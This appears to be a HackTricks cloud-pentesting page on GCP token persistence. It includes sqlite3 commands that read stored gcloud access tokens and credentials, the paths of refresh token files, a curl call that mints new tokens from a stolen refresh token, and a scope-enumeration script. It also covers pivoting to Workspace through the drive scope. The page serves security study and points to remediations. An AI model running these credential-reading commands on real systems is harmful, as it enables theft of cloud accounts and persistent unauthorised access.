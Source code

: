# GCP - Token Persistance

{{#include ../../../banners/hacktricks-training.md}}

### Authenticated User Tokens

To get the **current token** of a user you can run:

```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```

Check in this page how to **directly use this token using gcloud**:

{{#ref}}
https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1
{{#endref}}

To get the details to **generate a new access token** run:

```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```

It's also possible to find refresh tokens in **`$HOME/.config/gcloud/application_default_credentials.json`** and in **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**.

To get a new refreshed access token with the **refresh token**, client ID, and client secret run:

```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```

The refresh tokens validity can be managed in **Admin** > **Security** > **Google Cloud session control**, and by default it's set to 16h although it can be set to never expire:

<figure><img src="../../../images/image (11).png" alt=""><figcaption></figcaption></figure>

### Auth flow

The authentication flow when using something like `gcloud auth login` will open a prompt in the browser and after accepting all the scopes the browser will send a request such as this one to the http port open by the tool:

```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```

Then, gcloud will use the state and code with a some hardcoded `client_id` (`32555940559.apps.googleusercontent.com`) and **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) to get the **final refresh token data**.

> [!CAUTION]
> Note that the communication with localhost is in HTTP, so it it's possible to intercept the data to get a refresh token, however this data is valid just 1 time, so this would be useless, it's easier to just read the refresh token from the file.

### OAuth Scopes

You can find all Google scopes in [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) or get them executing:

```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```

It's possible to see which scopes the application that **`gcloud`** uses to authenticate can support with this script:

```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
    echo -ne "Testing $scope         \r"
    if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
        echo ""
        echo $scope
    fi
done
```

After executing it it was checked that this app supports these scopes:

```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```

it's interesting to see how this app supports the **`drive`** scope, which could allow a user to escalate from GCP to Workspace if an attacker manages to force the user to generate a token with this scope.

**Check how to** [**abuse this here**](../gcp-to-workspace-pivoting/#abusing-gcloud)**.**

### Service Accounts

Just like with authenticated users, if you manage to **compromise the private key file** of a service account you will be able to **access it usually as long as you want**.\
However, if you steal the **OAuth token** of a service account this can be even more interesting, because, even if by default these tokens are useful just for an hour, if the **victim deletes the private api key, the OAuh token will still be valid until it expires**.

### Metadata

Obviously, as long as you are inside a machine running in the GCP environment you will be able to **access the service account attached to that machine contacting the metadata endpoint** (note that the Oauth tokens you can access in this endpoint are usually restricted by scopes).

### Remediations

Some remediations for these techniques are explained in [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

### References

- [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
- [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

{{#include ../../../banners/hacktricks-training.md}}
